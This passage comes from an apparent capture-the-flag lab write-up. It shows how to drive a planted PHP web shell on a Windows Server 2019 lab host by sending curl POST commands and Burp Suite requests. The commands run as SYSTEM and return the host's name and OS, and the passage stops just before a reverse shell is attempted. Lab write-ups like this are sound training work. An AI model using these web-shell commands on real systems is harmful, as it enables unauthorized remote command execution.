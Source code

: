 ### Win! Not only did the shell execute, it is spawned as nt authority\system!

We now have two options here.

* Change the command in the exploit and re-run what we want.
* Leverage the webshell to execute more commands.

I'm going to pick option 2 because it is much quieter.

If we want, we can curl the shell using -d.

```
curl -X POST http://10.200.72.150/web/exploit-USERNAME.php -d "a=COMMANDTOLAUNCH"
```

There is also the option of [BurpSuite](https://portswigger.net/burp)

* Turn on intercept in Proxy section for BurpSuite.
* Turn on FoxyProxy linked to BurpSuite.
* Navigate to http://10.200.72.150.
* Send to Repeater with Ctrl + R.
* Modify the GET /web/exploit-USERNAME.php to POST /web/exploit-USERNAME.php.
* Add Content-Type header so the server accepts post requests.

```
Content-Type: application/x-www-form-urlencoded
```

* Add a=COMMANDTOLAUNCH to line 11

Send and the response will come back from the web shell. We could modify this exploit for a full pseudoshell environment, but the one we have is just fine for now.

**1) What is the hostname for this target?**

```
curl -X POST http://10.200.72.150/web/exploit-USERNAME.php -d "a=hostname"
"git-serv
"
```

**2) What operating system is this target?**

We are unsure if this is Windows or Linux, so we will run systeminfo && uname.

```
curl -X POST http://10.200.72.150/web/exploit-USERNAME.php -d "a=systeminfo & uname"

Systeminfo worked and returned this:
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
```

**3) What user is the server running as?**

This was already the default run when testing the exploit.

Before we attempt to establish a reverse shell, we must check to determine if the target can connect to our device.
